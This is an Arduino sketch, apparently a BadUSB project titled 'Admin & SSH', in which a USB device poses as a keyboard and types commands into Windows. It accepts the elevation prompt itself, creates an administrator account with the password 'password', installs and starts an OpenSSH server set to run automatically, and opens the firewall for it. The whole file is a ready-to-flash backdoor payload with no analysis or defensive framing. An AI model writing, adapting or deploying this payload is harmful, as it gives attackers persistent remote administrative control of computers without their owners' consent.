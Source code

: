 # BadUSB---Admin-SSH
BadUSB - Admin &amp; SSH
#include<Keyboard.h>
#define KEY_DELAY 50 //delay between keystrokes for slow computers

//a command line to execute
const char command0 [] = "powershell -Command Start-Process cmd -Verb RunAs"; // Launches cmd as admin
const char command1 [] = "net user admin password /add"; // Creates a new user by the name "admin" with password "password"
const char command2 [] = "net localgroup administrators admin /add"; // Adds the new user "admin" to the administrators group
const char command3 [] = "powershell Start-Process powershell -Verb runAs"; // Launches PowerShell as admin
const char command4 [] = "Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0"; // Installs OpenSSH server
const char command5 [] = "Start-Service sshd"; // Starts the SSH Server
const char command6 [] = "Set-Service -Name sshd -StartupType 'Automatic'"; // Sets the SSH service to start automatically
const char command7 [] = "Enable-NetFirewallRule -Name *OpenSSH-Server*"; // Creates a Firewall rule for SSH
const char command8 [] = "taskkill /IM cmd.exe"; // Closes CMD
const char command9 [] = "exit"; // Closes PowerShell


void setup() {
  Keyboard.begin();
  // I recommend that you leave a short delay before start while prototyping.
  // It will will give you some time to reprogram a board before it starts typing.
  delay(10000);
}

void loop() {
  //Pressing Win+r shortcut
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  delay(KEY_DELAY);
  Keyboard.releaseAll();
  delay(KEY_DELAY*5); //Inputting cmd command
  Keyboard.println("cmd");
  delay(KEY_DELAY*5); //A delay to ensure that cmd window has been opened
  delay(2000);
  Keyboard.println(command0); // Launches cmd as admin
  delay(5000);
  Keyboard.press(0x82);
  Keyboard.press('Y'); //Presses Left Alt + Y to select Yes at the pop-up prompt
  delay(KEY_DELAY);
  Keyboard.releaseAll();
  delay(3000);
  Keyboard.println(command1); // Creates a new user by the name "admin" with password "password"
  delay(2000);
  Keyboard.println(command2); // Adds the new user "admin" to the administrators group
  delay(2000);
  Keyboard.println(command3); // Launches PowerShell as admin
  delay(3000);
  Keyboard.press(0x82);
  Keyboard.press('Y'); //Presses Left Alt + Y to select Yes at the pop-up prompt
  delay(KEY_DELAY);
  Keyboard.releaseAll();
  delay(3000);
  Keyboard.println(command4); // Installs OpenSSH server
  delay(15000);
  Keyboard.println(command5); // Starts the SSH Server
  delay(2000);
  Keyboard.println(command6); // Sets the SSH service to start automatically
  delay(2000);
  Keyboard.println(command7); // Creates a Firewall rule for SSH
  delay(2000);
  Keyboard.println(command8); // Closes CMD
  delay(2000);
  Keyboard.println(command9); // Closes PowerShell
  delay(1000);
}
